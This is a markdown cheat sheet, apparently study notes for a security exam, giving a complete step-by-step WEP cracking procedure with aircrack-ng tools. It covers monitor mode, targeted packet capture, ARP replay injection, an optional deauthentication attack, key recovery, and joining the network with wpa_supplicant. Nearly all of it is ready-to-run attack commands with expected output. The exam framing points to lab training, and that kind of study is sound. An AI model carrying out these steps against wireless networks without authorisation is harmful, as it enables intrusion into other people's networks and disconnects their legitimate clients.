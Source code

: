 
# 🛡️ WEP Attack – SSH-only, exam-style flow

## ⚙️ 0. Initial Setup

📌 Get your interface MAC (before monitor mode) via:

```bash
cat /sys/class/net/wlan0/address
```
or
```bash
ip link show wlan0
```

then let's go!

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

Enables monitor mode on `wlan0mon`.

---

## 🔍 1. Network Scanning

```bash
sudo airodump-ng wlan0mon
```

Identify:
- `BSSID`
- `Channel`
- `Associated Clients` (STATION)

---

## 🎯 2. Targeted Sniffing

```bash
sudo airodump-ng --bssid <BSSID> -c <CH> -w dump wlan0mon
```

Collects IVs for cracking.

---

## 🚀 3. ARP Replay Attack


```bash
sudo aireplay-ng --arpreplay -b <BSSID> -h <YOUR_MAC> wlan0mon
```

Injects ARP requests to increase `#Data`.
`-h` needs **your** MAC not a random one. We are pretending to be a legitimate client.

---

## 💣 4. (Optional) Deauth Attack

```bash
sudo aireplay-ng --deauth 5 -a <BSSID> wlan0mon
```

Forces a client to reconnect and trigger ARP traffic.

---

## 🔓 5. Crack the WEP Key

When you see 20.000–30.000 IV in the `#Data` column you need to:


```bash
aircrack-ng dump-01.cap
```

Expected result:

```
KEY FOUND! [ 12:34:56:78:90 ]
```

---

## 🔌 6. Connect Using wpa_supplicant

### wep.conf

```ini
network={
    ssid="wifi-old"
    key_mgmt=NONE
    wep_key0="1234567890"
    wep_tx_keyidx=0
}
```

### Launch

```bash
sudo airmon-ng stop wlan0mon
sudo wpa_supplicant -i wlan0 -c wep.conf -D nl80211 -B
sudo dhclient wlan0
```

---

## ✅ 7. Verify Connection

```bash
ip a
ping 192.168.1.1
```

---

## 🧠 Extra: IP vs Gateway Explanation

- **192.168.1.48** is your local IP, assigned via DHCP by the router.
- **192.168.1.1** is usually the **gateway/router**, your exit to the rest of the network or internet.
- Pinging `192.168.1.1` checks if you're actually connected to the router.
- Pinging `192.168.1.48` means you're pinging yourself — useful only for internal stack checks.

---

Chapter closed. WEP is toast. Ready for WPA2? 😎
